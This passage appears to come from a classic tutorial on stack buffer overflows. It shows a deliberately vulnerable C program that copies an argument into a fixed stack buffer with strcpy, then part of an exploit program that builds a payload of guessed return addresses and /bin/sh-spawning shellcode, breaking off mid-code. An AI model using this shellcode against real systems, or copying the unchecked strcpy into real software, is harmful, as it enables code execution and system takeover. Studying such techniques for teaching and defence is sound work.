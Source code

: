    Lets assume this is the program we are trying to overflow is:

vulnerable.c
------------------------------------------------------------------------------
void main(int argc, char *argv[]) {
  char buffer[512];

  if (argc > 1)
    strcpy(buffer,argv[1]);
}
------------------------------------------------------------------------------

   We can create a program that takes as a parameter a buffer size, and an
offset from its own stack pointer (where we believe the buffer we want to
overflow may live).  We'll put the overflow string in an environment variable
so it is easy to manipulate:

exploit2.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];
